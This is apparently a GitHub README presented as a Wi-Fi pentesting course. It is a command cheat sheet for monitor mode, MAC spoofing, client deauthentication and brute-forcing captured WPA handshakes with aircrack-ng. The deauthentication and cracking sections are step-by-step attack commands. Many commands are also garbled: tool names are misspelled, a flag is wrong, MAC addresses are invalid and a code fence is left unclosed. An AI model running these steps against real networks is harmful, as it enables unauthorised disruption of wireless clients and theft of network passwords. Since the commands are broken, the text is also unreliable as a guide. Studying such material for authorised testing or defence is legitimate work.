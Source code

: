 ## WIFI PENTESTIING COURSE

__Basic Commands:__

```console
ifconfig 		--------Show Network Interfaces
ifconfig -a  		--------Show All Network Interfaces (active and Inactive)
ifconfig eth0		--------Show Config of Eth0
ifconfig eth0 Down	--------Disable eth0
ifconfig eth0 up 	--------Enable eth0
ifconfig eth0 172.16.0.1 netmask 255.255.255.0 -------Change Ip
ifconfig eth0 hw ether 7H:2J:7H:2J:7H:2J:7H:2J
iwconfig 		--------Show Info About network interfaces
```


__Moniter Mode__

```console
ifconfig wlan0 up ---------Up Your Card
airmon-ng -----------------Check Weather Card is Detected by Airmon
arimon-ng check -----------Check The Processes Which can cause Some Trouble
airmon-ng check kill--------Check the process which can cause the problem and kill them.
airmong-ng start wlan0 ------Start Monitering Mode on Wlan0
airmong-ng stop wlan0--------Stop The Monitering Interface
```

__Sniffing__

```console
wireshark and Select The interface 


__Dumping mode-[Check Hosts and Network Clients]-__

```console
airmong-ng start wlan0 ------Start Monitering Mode on Wlan0
airodump mon1 		-----Moniter traffic on CLI without saving
```


__Macchanging__

```console
ifdown wlan0 					--------bring Down Your Network Interface
macchanger -r wlan0  				-------Give me Some Random Mac Address
macchager -m  fe80::4ad2:24ff:fe4c:28f4 	------------Change Mac to fe80::
```

__Moniterign Specific AP__

```console
airmon-ng start wlan0 				------Start Moniter Mode
airodump-ng wlan0mon				------Listne to all Networks
airdump-ng --bssid [Bssid of AP] wlan0mon	------Listne to Only One AP
```



__Deauthantication Attack__

```console
airmon-ng start wlan0
airdump-ng start --channel 11 --bssid 1K:3U:9U:5U:K8:O5 wlan0mon   
>>Stop ofter 10 sec
>>Copy Bssid of Client 
aireplay-ng --dauth 2000 -a [your mac] -c [client mac] wlan0mon
```



__Cracking AP with Bruteforcing Handshake__

```console
airmon-ng start walan0
airodump-ng start wlan
	>>Copy The bssid of AP
airodump-ng --bssid EC:8C:A2:04:F3:A8 --channel 11 wlan0mon --write packets
	>>net Tab
aireplay-ng --dauth 2000 -a [your mac] -c [client mac] wlan0mon
	>>wait 20 sec
aircrack-ng packets.cap /usr/share/wordlists
airdecap-ng -e 'HKBK-WIF' -p password packets.cap
```
